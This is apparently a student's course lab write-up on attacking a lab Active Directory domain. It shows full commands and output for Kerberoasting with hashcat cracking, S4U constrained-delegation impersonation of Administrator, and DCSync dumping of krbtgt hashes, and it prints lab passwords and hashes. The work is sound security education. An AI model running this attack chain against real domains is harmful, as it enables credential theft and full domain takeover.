




# Windows Security II

Student: Ernst Schwaiger

## Lab Environment

The exercises were executed in a Kali VM using VirtualBox, Version 7.1.12 r169651 (Qt6.5.3), running on a Windows 11 host operating system.

Using 
- the provided password for the account `its26eschwaig`, 
- the VPN configuration file obtained at the SOPHOS portal and 
- the Kali `openvpn` client,

a VPN connection is set up as follows:

```zsh
sudo openvpn --config sslvpn-its26eschwaig-client-config.ovpn
```

## Support

I thank my fellow Students Kamil Mankowski and Lorenzo Haidinger for their helpful input.

## KRBRST

>There are service accounts with weak passwords configured in the active directory. We head of weak passwords (10 
>chars long, ends with 123A!, mostly lower case). The target is the portal server account with Service Principal 
>Name “HTTP/test”. The flag is the password of this user.
>
>Hints Windows:
>
>    setspn.exe
>    Invoke-Kerberoast
>    mimikatz
>    kerberos::ask
>
>Hints Linux:
>
>    GetUserSPNs.py
>    hashcat

As the invocation of `GetUserSPNs.py` fails when only providing the `winctf` subdomain name, `ldapsearch` provides its full distinguished name (DN):

```bash
ldapsearch -x -H ldap://192.168.10.162 -b "" -s base | grep "rootDomainNamingContext"
rootDomainNamingContext: DC=winctf,DC=its,DC=local
```

The DN of `winctf` is hence `winctf.its.local`. Using that information, `GetUserSPNs.py` can be invoked:

```bash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes :2785d316dd37ca24ebb855fcf054c74a -dc-ip 192.168.10.162 -request winctf.its.local/monitoring
cat kerberoastables.txt
```



The obtained ticket is a TGS ticket with the hash of the service user `svc.portal`, of the domain `winctf.its.local`. The resulting ticket can now be brute forced via `hashcat`. As the length of the password and its suffix are known, and it is also known that all unknown characters in the password are lower-case characters, the hashcat pattern `?l?l?l?l?l123A!` is applied on the hash mode `13100`, for Kerberos 5 TGS tickets.

```
hashcat -m 13100 -a 3 kerberoastables.txt ?l?l?l?l?l123A!
```

Which after a few seconds yields the password:


The password is `qsdgx123A!`.

## S4U

>There is an insecure delegation enabled in the domain: the portal (HTTP) can access file shares (CIFS) as 
>arbitrary user. Check if there is a delegation to SPN “CIFS/<domain controller>”. This flag is at C:\flag.txt on 
>the Domain Controller itself.
>
>Hints Windows:
>
>    Rubeus.exe
>
>Hints Linux:
>
>    getSt.py
>    psexec -debug
>    export KRB5CCNAME=user123123.ccache

In order to get a list of the services that allow delegation, `ldapsearch` can be used together with the freshly obtained password:

```bash
ldapsearch -x \
  -H ldap://192.168.10.162 \
  -D "svc.portal@winctf.its.local" \
  -w 'qsdgx123A!' \
  -b "dc=winctf,dc=its,dc=local" \
  "(servicePrincipalName=*)" \
  servicePrincipalName msDS-AllowedToDelegateTo userAccountControl

# extended LDIF
#
# LDAPv3
# base <dc=winctf,dc=its,dc=local> with scope subtree
# filter: (servicePrincipalName=*)
# requesting: servicePrincipalName msDS-AllowedToDelegateTo userAccountControl 
#

# svc.portal, ServiceAccounts, User, company, winctf.its.local
dn: CN=svc.portal,OU=ServiceAccounts,OU=User,OU=company,DC=winctf,DC=its,DC=lo
 cal
userAccountControl: 16843264
servicePrincipalName: HTTP/test
servicePrincipalName: CIFS/winctf
servicePrincipalName: CIFS/its24dc05
msDS-AllowedToDelegateTo: cifs/WIN-OJQUBDK1D3U.winctf.its.local/winctf.its.loc
 al
msDS-AllowedToDelegateTo: cifs/WIN-OJQUBDK1D3U.winctf.its.local
msDS-AllowedToDelegateTo: cifs/WIN-OJQUBDK1D3U
msDS-AllowedToDelegateTo: cifs/WIN-OJQUBDK1D3U.winctf.its.local/winctf
msDS-AllowedToDelegateTo: cifs/WIN-OJQUBDK1D3U/winctf
...
# search result
search: 2
result: 0 Success

# numResponses: 7
# numEntries: 3
# numReferences: 3
```

`userAccountControl` is a bitmap conveying what the service account `svc.portal` is allowed to do. The value `16843264` includes the `TRUSTED_TO_AUTH_FOR_DELEGATION/0x1000000` flag, which allows services running on this account to assume a client's identity and authenticate as that user to other servers on the network, i.e. delegation. See also the [learn.microsoft.com](https://learn.microsoft.com/en-gb/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) article.

The `servicePrincipalName` shows all the SPNs/services that are executing using the `svc.portal` account, for instance `HTTP/test`.

The `msDS-AllowedToDelegateTo` list indicates the SPNs `svc.portal` can delegate to, for instance `cifs/WIN-OJQUBDK1D3U`. This means that the services executing under the service account `svc.portal` may request TGSs on behalf of client users for all of the SPNs listed above. 

For obtaining user groups and their members in the domain, `ldapsearch` can be invoked like this

```bash
ldapsearch -x -H ldap://192.168.10.162 \
  -D "svc.portal@winctf.its.local" -w 'qsdgx123A!' \
  -b "DC=winctf,DC=its,DC=local" \
  "(objectClass=group)" \
  cn member

# extended LDIF
#
# LDAPv3
# base <DC=winctf,DC=its,DC=local> with scope subtree
# filter: (objectClass=group)
# requesting: cn member 
#

# Administrators, Builtin, winctf.its.local
dn: CN=Administrators,CN=Builtin,DC=winctf,DC=its,DC=local
cn: Administrators
member: CN=Domain Admins,CN=Users,DC=winctf,DC=its,DC=local
member: CN=Enterprise Admins,CN=Users,DC=winctf,DC=its,DC=local
member: CN=Administrator,CN=Users,DC=winctf,DC=its,DC=local
...

# search result
search: 2
result: 0 Success

# numResponses: 52
# numEntries: 48
# numReferences: 3
```

The user `Administrator` belongs to the builtin `Administrators` group, it is likely that it may access the CIFS service.

Now a service ticket for `cifs/WIN-OJQUBDK1D3U` can be obtained via `getSt.py`, which will request a service ticket for `svc.portal`, then replace the client entry by the `Administrator` account.

```bash
getST.py -impersonate Administrator -spn cifs/WIN-OJQUBDK1D3U -dc-ip 192.168.10.162 winctf.its.local/svc.portal:qsdgx123A!
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
...
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
...
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WIN-OJQUBDK1D3U@WINCTF.ITS.LOCAL.ccache
```

`nslookup` obtains the IP address of the WIN-OJQUBDK1D3U in the domain:

```bash
nslookup WIN-OJQUBDK1D3U.winctf.its.local 192.168.10.162
Server:         192.168.10.162
Address:        192.168.10.162#53

Name:   WIN-OJQUBDK1D3U.winctf.its.local
Address: 192.168.10.162
Name:   WIN-OJQUBDK1D3U.winctf.its.local
Address: 2a02:60:4:3305:a2db:59ca:4ceb:b4f8
```

This indicates that the CIFS service also executes on the domain controller, `192.168.10.162`. For accessing it, `psexec.py` and the previously obtained ticket can be used as follows to obtain the requested flag:




## SYNC

>The ultimate goal is the krbtgt password hash. This would enable us to create Golden Tickets.
>
>Hints Windows:
>
>    mimikatz dcsync
>
>Hints Linux:
>
>    export KRB5CCNAME=
>    secretsdump.py -just-dc

Secrets can be retrieved remotely by using `secretsdump` and the service ticket obtained in the previous step:



The NTLM and Kerberos hash entries for `krbtgt` can be subsequently used to create Golden Tickets:

```bash
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2cb5f3cc8de109a4bdb0a22fb372bb87:::
krbtgt:aes256-cts-hmac-sha1-96:3aa80c2f8a1ccb0818d5e328f7801f5e6abf36eb9fb9342fca0d708bbfdb49a5
krbtgt:aes128-cts-hmac-sha1-96:7d1133b9bfe8cbc0fdd1fc056511c794
krbtgt:des-cbc-md5:08df103ef8010b7a
```
